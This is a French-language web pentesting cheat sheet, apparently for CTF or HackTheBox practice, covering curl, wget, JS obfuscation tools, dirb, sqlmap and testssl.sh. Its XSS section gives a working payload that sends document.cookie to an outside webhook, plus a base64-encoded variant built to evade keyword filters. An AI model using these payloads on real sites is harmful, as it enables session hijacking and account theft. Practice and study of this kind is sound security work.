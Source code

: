 # Web

- [Outils](#outils)
- [Obfuscation Javascript](#obfuscation-javascript)
- [XSS](#xss)
- [Scan d'URL web](#scan-durl-web)
- [Injection SQL](#injection-sql)
- [TLS](#tls)

## Outils

Curl :
```bash
# ajouter un header à la requête
curl http://10.10.10.215 -H host:academy.htb
```

Pour obtenir la version hors-ligne d'un site :
```bash
# version courte
wget -r -l1 --page-requisite --convert-links --html-extension --timestamping url
# version longue
wget -r -l1 -p -k -E -N url
```

Pour requêter une API : https://reqbin.com

## Obfuscation Javascript

Outil pour obfusquer du Javascript : http://dean.edwards.name/packer

Outil pour dé-obfusquer du Javascript : https://lelinhtinh.github.io/de4js

## XSS

```html
// Pour tester
<p id="p1">Testarossa</p>
<script>
document.getElementById("p1").innerHTML = "Life found a way !";
</script>
```

Webhook : https://busterbaxter.requestcatcher.com
```html
// Pour exploiter
<script>
var script = document.createElement("script");
script.src = "https://busterbaxter.requestcatcher.com/" + document.cookie;
document.body.appendChild(script);
</script>:-)

// Pour bypass les filtres qui recherchent des mots clés : base64 encoded payload
<body onload="eval(atob('dmFyIHNjcmlwdCA9IGRvY3VtZW50LmNyZWF0ZUVsZW1lbnQoInNjcmlwdCIpO3NjcmlwdC5zcmMgPSAiaHR0cHM6Ly9idXN0ZXJiYXh0ZXIucmVxdWVzdGNhdGNoZXIuY29tLyIgKyBkb2N1bWVudC5jb29raWU7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChzY3JpcHQpOw=='))">
```

## Scan d'URL web

>Attention ! Ne pas utiliser en CTF réaliste
```bash
dirb http://10.10.10.215 -r -o academy.dirb.txt -H host:academy.htb
```

## Injection SQL

https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet

```bash
# à partir d'une url
sqlmap -u "http://academy.htb/admin.php?uid=0&password=0" #--level 5 --risk 3
# à partir d'une requête interceptée par burpsuite
sqlmap -r academy.burp.txt
```

## TLS

`testssl.sh` permet de tester :
- versions de SSL/TLS
- suites de chiffrement
- ordre de chiffrement
- certificat
- vulnérabilités connues

Pour lancer :
```bash
git clone --depth 1 https://github.com/drwetter/testssl.sh.git
cd testssl.sh
./testssl.sh --html 172.17.0.2:50051
```
